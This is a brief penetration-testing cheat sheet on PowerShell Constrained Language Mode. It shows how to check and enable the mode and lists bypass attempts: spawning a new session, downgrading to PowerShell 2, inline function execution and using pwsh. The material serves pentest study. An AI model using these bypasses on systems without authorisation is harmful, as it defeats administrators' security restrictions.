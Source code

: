 # Powershell Constrained Language Mode (CLM) Bypass

https://viperone.gitbook.io/pentest-everything/everything/powershell/constrained-language-mode


Constrained Language Mode is a setting in PowerShell that greatly limits what commands can be performed. This can potentially reduce the available attack surface to adversary's.

By default PowerShell runs in Full Language Mode which all functions are available for use. This includes access to all language elements, cmdlets, and modules, as well as the file system and the network.

## Enumeration

##### Check current language mode

    $ExecutionContext.SessionState.LanguageMode

##### Simple command to see if Constrained Language is enabled in current session

    [System.Console]::WriteLine("ConstrainedModeTest")

Constrained Language mode can be set with the following commands.

##### Set Language mode to Constrained (Current Session)

    $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"

##### Environmental Variable, all new sessions will start in Constrained Mode

    [Environment]::SetEnvironmentVariable(‘__PSLockdownPolicy‘, ‘4’, ‘Machine‘)

## Bypass

##### Bypass by starting new PS session

    powershell.exe

##### Bypass by downgrading version to PowerShell 2

    Powershell.exe -version 2

##### Attempt command execution with inline functions

    &{hostname}

##### If PowerShell V6 is installed try executing

    pwsh

## TIP: Constrained Language mode is often enabled in environments that enforce AppLocker

## TIP 2: Constrained Language mode was introduced in PowerShell version 3. As such it is not applicable to version 2 PowerShell sessions.

